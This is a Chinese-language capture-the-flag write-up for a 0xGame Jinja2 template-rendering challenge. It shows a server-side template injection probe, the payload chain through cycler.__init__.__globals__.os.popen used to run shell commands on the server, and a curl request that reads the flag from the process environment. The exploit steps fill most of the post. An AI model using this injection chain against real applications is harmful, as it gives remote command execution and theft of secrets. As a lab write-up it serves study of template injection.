



# 渲染如呼吸一样简单

打开页面：



页面标明渲染引擎是 `jinja2-preview` 。

在 Template Input 上输入：

```
<p>{{ 114 * 514 }}</p>
```

并点按“渲染”，注意到页面地址变成 `/render` ，Render Result 确实显示了 `58596` ，这证明模板表达式确实在服务器端执行。





上 SSTI 。

提交的模板 key 的 value 各字段是：

- `cycler`
- `__init__`
- `__globals__`
- `os` （究竟有没有导入这个模块，还是要试，结果确实是导入的）
- `popen()`
- `read()`

用 `popen()` 的时候，先执行一堆命令（`whoami; pwd; ls -al . /`）看一下服务端大概是个什么情况：

```html
<!-- ... -->
                <div class="preview">ctf
/app
.:
total 12
drwxr-xr-x 1 root root 4096 Sep 23 09:46 .
drwxr-xr-x 1 root root 4096 Sep 28 04:35 ..
drwxr-xr-x 4 root root 4096 Sep 23 09:45 src

/:
total 68
drwxr-xr-x    1 root root 4096 Sep 28 04:35 .
drwxr-xr-x    1 root root 4096 Sep 28 04:35 ..
drwxr-xr-x    1 root root 4096 Sep 23 09:46 app
lrwxrwxrwx    1 root root    7 Jul 17 17:05 bin -&gt; usr/bin
drwxr-xr-x    2 root root 4096 Jul 17 17:05 boot
drwxr-xr-x    5 root root  360 Sep 28 04:35 dev
-rwxr-xr-x    1 root root  239 Sep 26 08:03 entrypoint.sh
drwxr-xr-x    1 root root 4096 Sep 28 04:35 etc
-r--------    1 root root   45 Sep 28 04:35 flag
drwxr-xr-x    1 root root 4096 Sep 23 09:46 home
lrwxrwxrwx    1 root root    7 Jul 17 17:05 lib -&gt; usr/lib
lrwxrwxrwx    1 root root    9 Jul 17 17:05 lib64 -&gt; usr/lib64
drwxr-xr-x    2 root root 4096 Sep 18 00:00 media
drwxr-xr-x    2 root root 4096 Sep 18 00:00 mnt
drwxr-xr-x    2 root root 4096 Sep 18 00:00 opt
dr-xr-xr-x 2941 root root    0 Sep 28 04:35 proc
drwx------    1 root root 4096 Sep 19 00:59 root
drwxr-xr-x    3 root root 4096 Sep 18 00:00 run
lrwxrwxrwx    1 root root    8 Jul 17 17:05 sbin -&gt; usr/sbin
drwxr-xr-x    2 root root 4096 Sep 18 00:00 srv
dr-xr-xr-x   13 root root    0 Oct  1  2025 sys
drwxrwxrwt    2 root root 4096 Sep 18 00:00 tmp
drwxr-xr-x    1 root root 4096 Sep 18 00:00 usr
drwxr-xr-x    1 root root 4096 Sep 18 00:00 var
</div>
<!-- ... -->
```

这里已经很明显了，`flag` 锁权限，而且根目录底下躺着一个诡异的 `entrypoint.sh`：

```bash
#!/bin/sh
set -eu

if [ -z &#34;${FLAG:-}&#34; ]; then
    echo &#34;FLAG is empty; set FLAG to the dynamic answer value.&#34; &gt;&amp;2
    exit 1
fi

printf &#39;%s\n&#39; &#34;$FLAG&#34; &gt; /flag

chown root:root /flag
chmod 0400 /flag

exec gosu ctf python3 /app/src/app.py

```

这是直接从环境变量里写 flag 的，搞到手就行了。

```bash
scetayh@yuprae-gentoo ~ $ curl -sS -X POST 'http://5000-fa344225-bfa2-422f-9f06-9d35aa2f4f8e.challenge.ctfplus.cn/render' --data-urlencode "template={{ cycler.__init__.__globals__.os.environ['FLAG'] }}" | grep '0xGame{'
                <div class="preview">0xGame{017a21ee-703c-4a24-9c8e-640eeae81f85}</div>
scetayh@yuprae-gentoo ~ $ 
```